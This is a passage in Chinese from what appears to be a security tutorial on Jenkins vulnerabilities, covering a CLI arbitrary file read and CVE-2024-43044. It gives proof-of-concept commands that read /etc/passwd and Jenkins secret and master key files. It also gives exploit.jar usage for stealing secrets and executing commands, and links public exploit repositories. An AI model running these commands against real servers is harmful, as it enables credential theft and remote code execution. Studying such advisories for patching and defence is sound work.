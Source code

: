 通过“记住我”cookie 远程执行代码；  
  
通过构建日志使用XSS攻击（跨站脚本，XSS） 远程执行代码；  
  
通过绕过CSRF（跨站请求伪造）保护来远程执行代码；  
  
解密 Jenkins 中存储的秘密；  
  
删除Jenkins中的任何元素；  
  
下载Java堆转储等等。  
  
2.漏洞利用poc  
  
（1）下载jenkins-cli.jar  
  
访问本地架设的jenkis，例如http://192.168.1.1:8080/jnlpJars/jenkins-cli.jar  
  
（2）读取敏感文件  
  
java -jar jenkins-cli.jar -s   
http://jenkins:8080/  
 connect-node "@/etc/passwd"  
  
java -jar jenkins-cli.jar -s   
http://localhost:8080/  
 -http help 1 "@/var/jenkins_home/secret.key"  
  
敏感文件地址：  
  
/var/jenkins_home/users/*/config.xml  
  
/var/jenkins_home/secret.key  
  
/var/jenkins_home/secrets/master.key  
### 1.1.7 任意文件读取漏洞（CVE-2024-43044）  
  
1.漏洞简介  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8kZFvbmTgUfNafibAG7xEib55B0ib3tNZFQaa46j8Ih0wuTucxcNhRhicPQ/640?wx_fmt=png&from=appmsg "")  
  
CVE-2024-43044被归类为任意文件读取漏洞，允许代理从Jenkins控制器读取文件。该漏洞的根本原因在于Jenkins允许控制器向其代理传输JAR文件的功能。由于ClassLoaderProxy#fetchJar方法未能限制代理请求的文件路径，导致控制器文件系统的未经授权访问成为可能。研究人员详细分析了该漏洞的利用过程，攻击者首先利用hudson.remoting.RemoteClassLoader，从远程对等体加载类文件。通过此方法，攻击者访问与hudson.remoting.RemoteInvocationHandler相关联的Proxy对象，进而调用fetchJar方法，触发对控制器的远程过程调用（RPC）。在控制器端，fetchJar方法在未验证用户控制的URL的情况下读取资源，这一关键疏漏使攻击者能够绕过Agent -> Controller访问控制系统。利用该漏洞，攻击者可以读取控制器中的关键文件，伪造用户的“记住我”cookie，最终获得对Jenkins脚本引擎的访问权限，并执行系统命令。此漏洞已在Jenkins 2.471版本及长期支持（LTS）版本中得到修复，建议使用Jenkins的组织立即更新以降低风险。  
  
2.可利用poc  
  
（1）  
https://github.com/convisolabs/CVE-2024-43044-jenkins  
  
    java -jar exploit.jar mode_secret <jenkinsUrl> <nodeName> <nodeSecretKey>  
  
    java -jar exploit.jar mode_attach <jenkinsUrl> <cmd>  
  
    java -jar exploit.jar mode_attach <cmd>  
  
（2）  
https://github.com/HwMex0/CVE-2024-43044?tab=readme-ov-file  
  